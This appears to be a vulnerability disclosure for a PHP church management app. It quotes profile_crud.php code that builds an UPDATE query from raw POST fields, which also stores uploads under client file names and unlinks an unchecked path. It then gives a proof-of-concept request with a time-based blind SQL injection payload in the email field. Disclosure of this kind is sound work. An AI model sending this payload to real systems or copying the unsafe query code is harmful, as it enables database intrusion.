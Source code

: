 ### Vulnerability file address

`church/admin/app/profile_crud.php` from line 39,The `$_POST['email']` parameter is controllable and the `$_POST['email']` is not protected from sql injection, line 39

 ````
$stmt = $conn->prepare("UPDATE `login` SET `username`='" . $_POST['username'] . "',`email`='" . $_POST['email'] . "',`mobileno`='" . $_POST['mobileno'] . "',`image`='" . $img . "' WHERE id='" . $_SESSION['id'] . "' ");
 ````

 line 41 `$stmt->execute();` performs a SQL query, causing SQL injection

```php
<?php
session_start();
include '../../assets/constant/config.php';

try {
	$conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
	$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
	echo "Connection failed: " . $e->getMessage();
}
if (isset($_POST['update'])) {

	$uploadDir = '../../assets/images/';
	if ($_FILES['image']['tmp_name'] != '') {
		$filepath = "../../assets/images/" . $_FILES["image"]["name"];
		$originalName = basename($_FILES['image']['name']);
		$extension = pathinfo($originalName, PATHINFO_EXTENSION);

		// Generate a new unique file name
		$newName = uniqid() . '.' . $extension;

		// Set the path to the new file location
		$newFilePath = $uploadDir . $newName;

		// Upload the file to the server


		if (move_uploaded_file($_FILES["image"]["tmp_name"], $filepath)) {
			$img = $_FILES["image"]["name"];

			@unlink("../../assets/images/" . $_POST['old_cat_img']);
		}
	} else {
		$img = $_POST['old_cat_img'];
	}


	//echo "UPDATE `login` SET `username`='".$_POST['username']."',`email`='".$_POST['email']."',`mobileno`='".$_POST['mobileno']."',`image`='".$img."' WHERE id='".$_SESSION['id']."' ";exit;
	$stmt = $conn->prepare("UPDATE `login` SET `username`='" . $_POST['username'] . "',`email`='" . $_POST['email'] . "',`mobileno`='" . $_POST['mobileno'] . "',`image`='" . $img . "' WHERE id='" . $_SESSION['id'] . "' ");

	$stmt->execute();
```

### POC

```http
POST /church/admin/app/profile_crud.php HTTP/1.1
Host: www.church.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=kecn6qqrggjnvlpgliqeq951j0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 2

update=1&email=' WHERE 8621=8621 AND (SELECT 4307 FROM (SELECT(SLEEP(5)))owyW)-- sKrG&old_cat_img=&mobileno=
```

### Attack results pictures

![image-20250220214814478](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502202148522.png)